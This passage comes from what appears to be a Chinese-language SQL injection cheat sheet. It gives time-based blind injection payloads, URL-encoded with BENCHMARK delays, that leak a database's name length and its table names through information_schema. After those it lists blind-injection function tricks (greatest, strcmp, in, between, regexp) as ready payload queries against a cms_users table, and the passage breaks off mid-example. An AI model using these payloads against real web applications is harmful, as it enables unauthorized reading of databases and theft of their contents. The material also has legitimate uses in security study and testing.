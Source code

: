   action=3)%0aOR%0aIF((SELECT%0aLENGTH(DATABASE()))%0alike%0a1,%0a1,%0aBENCHMARK(1000000000,%0a1))%0aOR%0a(3

  //报数据库长度

  action=f'3)%0aOR%0aIF((SELECT%09mid(hex(group_concat(table_name)),%09{i},%091)%09FROM%09information_schema.tables%09WHERE%09table_schema%09like%09database())%09like%09\'{j}\',%09BENCHMARK(100000000,%0a1),%091)OR%0a(3'                                                                                                   //爆表名，结果为16进制编码    

  ```

- ### **盲注函数**

  ##### **greatest(n1, n2, n3…):返回n中的最大值 或least(n1,n2,n3…):返回n中的最小值**

  ```

  select * from cms_users where userid=1 and greatest(ascii(substr(database(),1,1)),1)=99;

  ```

  ##### **strcmp(str1,str2):若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1**

  ```

  select * from cms_users where userid=1 and strcmp(ascii(substr(database(),0,1)),99)

  ```

  **in关键字**

  ```

  select * from cms_users where userid=1 and substr(database(),1,1) in ('c');

  ```

  **between a and b:范围在a-b之间（不包含b）**

  ```

  select * from cms_users where userid=1 and substr(database(),1,1) between 'a' and 'd';

  ```

  **regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配**

  ```

  Select * from cms_users where username REGEXP "admin";

  ```

  **length函数返回字符长度**

  ```sql

  select length('hello')

  // 5
